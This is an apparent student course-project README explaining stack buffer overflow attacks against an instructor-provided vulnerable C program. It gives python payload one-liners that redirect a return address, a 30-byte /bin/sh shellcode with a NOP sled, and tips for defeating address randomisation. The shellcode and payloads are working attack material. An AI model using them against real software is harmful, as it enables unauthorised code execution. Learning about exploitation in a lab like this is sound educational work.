










# Overview of Buffer Overflow Attack Example Problems
#### Sabrina Pereira and Micah Reid


## Project Goals
Our goal is to understand the mechanics of buffer overflow attacks, and common issues that would make a program susceptible to this type of security risk. Our minimum goal is to go through the provided exercises to perform buffer overflow attacks (provided by Steve). Our reach goals are to understand buffer overflow attacks enough to create our own programs that either have exploitable vulnerabilities, or use practices to prevent buffer overflow attacks.


We chose to learn to use the CLion IDE and debugger to do this because both us wanted to learn about what debugging tools exist, what they look like, and what capabilities they afford us.


## What is a Buffer Overflow Attack?

First, a buffer overflow occurs when a program tries to put data into a buffer that is of insufficient size for the operation. There is a specific block of memory that is allocated to storing that data, and going outside those bounds can cause various issues. If you know information about how these buffers are stored and what type of information is around them, you can intentionally cause a buffer overflow in a vulnerable program and modify its normal behavior.

This may include causing the program to crash, making the program skip to a different part of its instructions, or even opening a shell for the attacker.

Three resources we used to learn about buffer overflow attacks are the following:
  - [Computerphile video on Buffer Overflow Attack](https://www.youtube.com/watch?v=1S0aBV-Waeo)
  - [Veracode - What Is a Buffer Overflow?](https://www.veracode.com/security/buffer-overflow)
  - [OWASP - Buffer Overflow](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)


## How is a Buffer Overflow Attack Executed?

There are various ways memory can be overwritten to modify the program, but one common way, and the way that we will explore, is to overwrite the return address, as the location of it will be following the buffer to be written into as a way for the program to continue. The return address will be in a determinable location. The following examples go through our process in executing a buffer overflow attack in two different ways by doing this.


## Example 1: Jump to a Unauthorized Area in the Code
For this example, we will be using example code provided to us by Professor Steve Matsumoto that [can be found here](https://github.com/syclops/buffer-overflow-examples). In this example, we have a function `load_software` that should only be run if a user has an authorized 15-character key. However, the program has no bounds checking and this is what will allow us to overwrite the return address after the function to get the user's input.

Below is the `main()` function for this program:

```
int main() {
  puts("Enter your 15-character license key:");
  char key[BUFFER_SIZE];
  getbuf(key);
  if (validate(key)) {
    load_software();
    return 0;
  }
  return 1;
}
```


### Step 1: Figure how the data is stored in the buffer
To do this, made use of both the knowledge we learned in class, and learned how to use some of CLion's debugging tools, specifically the breakpoints and Memory View.

Looking at the `main()` function, we have a function `getbuf()` that will be put on the stack.

```
void getbuf(char* buf) {
  gets(buf);
}
```

This function `gets` fills the buffer from user standard input
entry.



We see that once we process the input, the data is stored in the buffer from a lower memory address to a higher memory address.




### Step 2. Figuring out return address on the stack
From the Memory View, we can also see where the return address is on the stack. We can see that the address for `main` on the Frames pane is the same address that is 8 bytes from our buffer's end (including the null terminator) in little endian format.




- Stack stores return address 8 bytes from last array element

### Step 3. Figure out the address of `load_software`
To find out the memory address for the function we wanted to jump to, we used GDB's `info address`. In this example, we have the address `0x401e16`.




### Step 4. Overwriting return address
Using all of this information, we can overwrite the return address for `getbuf()` that stored in memory such that it looks something like this, inputting the desired address to jump to in little endian format:




One way to do this is by running something like the following as was done in this example that allows you to input raw bytes using `\x` and see the result:

```
python3 -c 'import sys; sys.stdout.write("1111122222333330111222\x16\x1e\x40")' | ./foo
```



## Example 2: Executing Shell Code
This example follows a similar structure to the previous, but instead of overwriting the buffer code such that the return address is set to jump the `load_software` function, we fill the buffer up with a sequence of bytes in our shellcode and have the return address jump to the start of that sequence.


This example will use the same [code as Example 1]((https://github.com/syclops/buffer-overflow-examples)) and shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-603.php)). However, we will change the example code such that `BUFFER_SIZE = 64` as this example will require a given buffer large enough to fit our shellcode.


### Step 1: Set up text input

For this attack we are trying to fit our shell code into 64 bytes, along with our no-ops. In bytes, our shell code is written as `b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05`.

Our shell code is 30 bytes, so we can add 34 no-ops to our shell code to fill the buffer. We will write this to a text file for ease of use. using the following code:

`python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*34 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")' > ex.txt
`

### Step 2: Find address of buffer input

From our example code, we can see that our `getbuf`function is on line 34, and we can enter a breakpoint there. We don't want to call this line of code, but inside of this function we have the line of code that opens our buffer, so we can find the address through this method.



For this attack we will use GDB to view the memory view, since CLion has a security feature implemented that changes stack addresses on each compile, making this attack impossible to carry out.

So, after we build our program using cmake (NOT using CLion build), we can run our debugger.

We can step into this function using the `s` command, and then view the first 100 adresses in the stack using the `x/100x $sp` command. Since we have put a series of `\90`s, we can easily see where our input begins.



In the stack we can see our no ops start at the address `0x7fffffffdbc0`.

### Step 3: Replace return address

In order to execute this attack, we need to replace the return address with the address we selected in the last step, so that we can go back through the shell code and progress from the no op sled to the attacks.

To do this, we must convert our address to a little endian format. This means we will input the address in byte form as `\xc0\xdb\xff\xff\xff\xff\xff\x7f`. We can add this to our text file with the following code:

`python3 -c 'import sys; sys.stdout.buffer.write( b"\x90"*26 + b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + b"\xc0\xdb\xff\xff\xff\xff\xff\x7f" * 2)' > ex.txt
`

Then, we can input this into our executable, and if all succeeds a shell should open.

`ex.txt > ./foo`

### Debugging

There is a good chance that these instructions will not work out of the box on any given computer, because modern machines come with many settings enabled to prevent this type of attack. Many of these safeguards will shuffle stack addresses, meaning that what is seen in the debugger will be different from the addresses in the executable.


Steve's example repo: https://github.com/syclops/buffer-overflow-examples

One way to help with writing the raw bytes for your attack is to have a script write them for you and piping those results to your program. An example of this can be found in the buffer overflow example files [exploit.py](https://github.com/syclops/buffer-overflow-examples/blob/main/exploit.py).

#### Stack moving around
One thing that is put into Linux systems that makes them more secure is that your stack memory addresses will change every time you run a program. This makes it difficult to execute an attack when the addresses are an unknown.

One thing that can help with this is setting the personality Linux variable, which sets a constant domain for the program to run in, preventing shifts. You can read more on the [man page](https://man7.org/linux/man-pages/man2/personality.2.html).
`#include <sys/personality.h>

int personality(2);`

This can also be done at the system level, but it is not recommended, since it is easy to forget to reset it after running the attack.



It is also important to note that environment variables can change stack addresses, so it is important to keep them consistent between gdb and your command line. With a large enough buffer this may not always matter if you aim to return to the middle of the nops, since it doesn't shift the stack dramatically.

One thing you may want to do is use the `unset` command in gdb as seen below to remove environment variables that gdb adds automatically so that you get more consistent results outside of the debugger.



### Reflection

When we chose this project, we expected it to be very simple. Understanding buffer overflow attacks only took a day or so, but this project took weeks to complete. Most of our time was spent on debugging, and that process ended up teaching us about many other aspects of Linux and general operating systems- from assembly code, to environment variables, to common configurable security settings. We joked in our final meeting that this project was not so much about understanding and implementing buffer overflow techniques as understanding the inner workings of computer memory. More than anything this project was a reminder of the complexity of simple programs under the hood. We definitely achieved our learning goals, and then proceeded to learn about many things we didn't even know we didn't know.
